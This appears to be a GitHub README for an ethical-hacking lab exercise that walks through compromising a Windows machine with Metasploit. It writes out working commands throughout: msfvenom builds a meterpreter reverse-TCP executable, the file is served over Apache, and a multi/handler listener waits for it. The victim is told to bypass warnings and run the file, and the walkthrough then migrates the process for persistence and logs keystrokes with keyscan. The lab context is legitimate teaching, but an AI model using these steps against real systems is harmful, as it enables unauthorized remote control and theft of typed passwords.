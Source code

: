 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![Output](Op1-eh6.png)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![Output](Op2-eh6.jpeg)

copy the fun.exe into the apache /var/www/html folder

![Output](Op3-eh6.jpeg)

Start apache server
sudo systemctl apache2 start

![Output](Op4-eh6.jpeg)

Check the status of apache2

![Output](Op5-eh6.jpeg)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![Output](Op6-eh6.jpeg)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Output](Op7-eh6.png)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![Output](Op8-eh6.jpeg)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![Output](Op9-eh6.png)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![Output](Op10-eh6.jpeg)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Output](Op11-eh6.jpeg)
keyscan_dump	Shows the keystrokes captured so far
![Output](Op12-eh6.jpeg)

## RESULT:
The Metasploit framework for reconnaissance is  examined successfully

